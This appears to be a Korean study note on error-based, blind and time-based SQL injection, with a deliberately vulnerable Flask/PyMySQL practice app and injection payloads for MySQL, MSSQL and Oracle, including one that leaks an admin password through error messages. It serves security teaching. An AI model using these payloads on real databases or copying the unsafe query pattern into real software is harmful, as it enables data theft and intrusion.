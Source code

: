 # Error based SQL Injection 정리

## 1. 개요

**Error based SQL Injection**은 **임의의 에러를 발생시켜** 데이터베이스 또는 운영체제 정보를 얻는 공격 기법이다.

## 2. 실습 예제 코드 (Flask + PyMySQL)

```bash
pip3 install PyMySQL
```

```python
from flask import Flask, request
import pymysql

app = Flask(__name__)

def getConnection():
    return pymysql.connect(
        host='localhost',
        user='dream',
        password='hack',
        db='dreamhack',
        charset='utf8'
    )

@app.route('/', methods=['GET'])
def index():
    username = request.args.get('username')
    sql = "select username from users where username='%s'" % username

    conn = getConnection()
    curs = conn.cursor(pymysql.cursors.DictCursor)
    curs.execute(sql)
    rows = curs.fetchall()
    conn.close()

    if(rows):
        return "True"
    else:
        return "False"

app.run(host='0.0.0.0', port=8000, debug=True)
```

- **취약점**: 입력값에 대한 검증 없음 → SQL Injection 가능
- **디버그 모드 활성화**: 에러 발생 시 상세 메시지 노출

## 3. 공격 예시 및 원리

### 3.1 에러 메시지 예시

```sql
admin 1'
```

```text
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version...
```

### 3.2 런타임 에러 유도 (MySQL)

```sql
SELECT extractvalue(1,concat(0x3a,version()));
```

```text
ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
```

### 3.3 extractvalue 함수 설명

- XML 데이터에서 XPath를 통해 값 추출
- 잘못된 XPath 입력 시 에러 발생하며 삽입한 값이 포함됨

```sql
SELECT extractvalue('<a>test</a>', '/a');
-- 결과: test

SELECT extractvalue(1, ':abcd');
-- 결과: XPATH syntax error: ':abcd'
```

### 3.4 응용 예시

```sql
SELECT extractvalue(1,concat(0x3a,(SELECT password FROM users WHERE username='admin')));
-- 에러 메시지에 비밀번호 노출
```

## 4. DBMS별 Error based SQLI

### MySQL

```sql
SELECT updatexml(null,concat(0x0a,version()),null);
SELECT extractvalue(1,concat(0x3a,version()));
SELECT COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;
```

### MSSQL

```sql
SELECT convert(int,@@version);
SELECT cast((SELECT @@version) as int);
```

### Oracle

```sql
SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual;
```

## 5. Error based Blind SQL Injection

### 예시

```sql
SELECT IF(1=1, 9e307*2, 0); -- 에러 발생
SELECT IF(1=0, 9e307*2, 0); -- 정상 실행
```

### Short-circuit Evaluation

```sql
SELECT 0 AND SLEEP(1); -- 바로 반환
SELECT 1 AND SLEEP(10); -- 10초 지연

SELECT 1=1 OR 9e307*2; -- 에러 없음
SELECT 1=0 OR 9e307*2; -- 에러 발생
```

## 6. Time based SQL Injection

- 시간 지연으로 참/거짓 여부 판단

### MySQL 예시

```sql
SELECT IF(1=1, sleep(1), 0); -- 1초 지연
SELECT IF(1=0, sleep(1), 0); -- 바로 반환

SELECT SLEEP(1);
SELECT BENCHMARK(40000000,SHA1(1));

-- 헤비 쿼리
SELECT (SELECT count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.tables C);
```

### MSSQL 예시

```sql
SELECT '' IF((SELECT 'abc')='abc') WAITFOR DELAY '0:0:1';

-- 헤비 쿼리
SELECT (SELECT count(*) FROM information_schema.columns A, B, C, D, E, F);
```

## 7. 마무리

- **Error based SQLI**: 쿼리 실행 결과를 에러 메시지로 노출해 공격
- **Time based SQLI**: 시간 지연을 활용해 조건 만족 여부 확인

## 키워드 요약

- **Error based SQL Injection**: 에러 메시지를 통해 정보 획득
- **Error based Blind SQL Injection**: 에러 발생 여부로 참/거짓 판단
- **Time based SQL Injection**: 시간 지연으로 조건 참/거짓 판단
- **헤비 쿼리**: 많은 자원과 시간을 소모하는 쿼리

